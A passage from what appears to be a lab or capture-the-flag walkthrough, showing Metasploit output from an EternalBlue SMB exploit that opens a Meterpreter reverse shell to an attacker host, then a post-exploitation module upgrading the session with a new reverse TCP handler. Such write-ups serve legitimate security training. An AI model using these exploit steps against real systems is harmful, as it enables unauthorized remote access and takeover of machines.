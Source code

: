 ```rb
[+] target-ip:445 - Sending SMBv2 buffers
[+] target-ip:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] target-ip:445 - Sending final SMBv2 buffers.
[*] target-ip:445 - Sending last fragment of exploit packet!
[*] target-ip:445 - Receiving response from exploit packet
[+] target-ip:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] target-ip:445 - Sending egg to corrupted connection.
[*] target-ip:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to target-ip
[*] Meterpreter session 1 opened (attacking-ip:4444 -> target-ip:49229) at 2023-12-07 15:10:54 +0000
[+] target-ip:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] target-ip:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] target-ip:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 
```

- If we end up with a meterpreter shell, we know our exploit was successful. We now have remote access onto the target machine and can look around and escalate privileges at our leisure.

## Privilege Escalation
- Now that we have access, let's load a post-exploitation module that will give us some additional functionality to fully pwn this machine. First, we should background our session with `ctrl+z`. Now, we can enter the following into our console:
```
msf6 > use post/multi/manage/shell_to_meterpreter
```

- When we look at the options with the `show options` command, we can see that we need to supply a `SESSION` number: 
```rb
Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to recei
                                       ve the connection
   LHOST                     no        IP of host that will receive the connec
                                       tion from the payload (Will try to auto
                                        detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.
```

- As before, all we have to do is enter `set SESSION 1` (provided your meterpreter session is 1).
- Now, we can enter `run` to run the module. If everything goes well, we should see the following:
```rb
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on attacking-ip:4433 
[*] Post module execution completed
```
